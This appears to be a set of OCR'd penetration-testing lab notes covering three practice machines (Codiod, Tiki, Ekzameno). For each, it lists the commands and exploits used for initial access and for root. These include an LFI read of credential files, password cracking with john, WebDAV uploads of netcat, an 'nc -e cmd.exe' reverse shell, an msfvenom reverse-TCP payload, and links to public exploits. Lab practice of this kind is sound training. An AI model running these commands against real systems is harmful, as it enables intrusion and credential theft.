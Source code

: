 ```bash
Codiod (.55)
```
Operating SystemWindows
Points20
Similar Machine (User)
Similar Machine (Root)
Exploits in Getting User
1. Simple nmap will show /dashboard so directory brute force that
2. LFI in
compontents/filemanager/download.php?path=../../../../../../../../../../xampp/security/webda
v.htpasswd
1. Brute force the hash: john --wordlist=rockyou.txt hash.txt
2. Upload netcat: curl --user 'wampp:iamdifferent' -T nc.exe
http://192.168.XX.55/webdav/nc.exe
1. Upload the reverse shell using the same process above: <?php echo($_GET[‘cmd’]); ?>
2. Start a netcat listener
3. curl --user 'wampp:iamdifferent'
http://192.168.XX.55/webdav/cmd.php?cmd=nc+-e+cmd.exe+192.168.XX.XX+53
1. User Shell!
Privilege Escalation to Root
1. WebDAV Elevation of Privilege Vulnerability - CVE-2016-0051
2. Method 2 in https://hacknpentest.com/webdav-exploit-elevation-of-privilege/
3. Exploit: https://github.com/hexx0r/CVE-2016-0051
4. Root shell!

```bash
Tiki (.67)
```
Operating SystemLinux
Points20
Similar Machine (User)
Similar Machine (Root)
Exploit in Getting User
1. Directory brute force port 8080
2. Tiki Wiki 15.1 - File Upload - https://www.exploit-db.com/exploits/40053
3. Run the exploit and access
http://192.168.27.83:8080/tiki/vendor_extra/elfinder/files/evil.php
1. Execute commands:
http://192.168.27.83:8080/tiki/vendor_extra/elfinder/files/evil.php?fexec=whoami
1. msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.XX.XX LPORT=4444 -f
exe -o mrev.exe
1. http://192.168.27.83:8080/tiki/vendor_extra/elfinder/files/evil.php?fupload=mrev.exe
2. User shell!
Privilege Escalation to Root
1. SentryHD 02.01.12e - Local Privilege Escalation -
https://www.exploit-db.com/exploits/41090
1. Root shell!

```bash
Ekzameno (.67)
```
Operating SystemLinux
Points20
Similar Machine (User)HackTheBox’s Joker
Similar Machine (Root)HackTheBox’s Joker
Exploit in Getting User
1. Port 5000 is open and vulnerable to https://github.com/its-arun/Werkzeug-Debug-RCE
2. Use the exploit
3. User shell!
Privilege Escalation to Root
1. sudo -l
sudoedit /var/www/html/werkzeug-master/examples/*/*/layout.html
1. https://www.exploit-db.com/exploits/37710
2. Root shell!
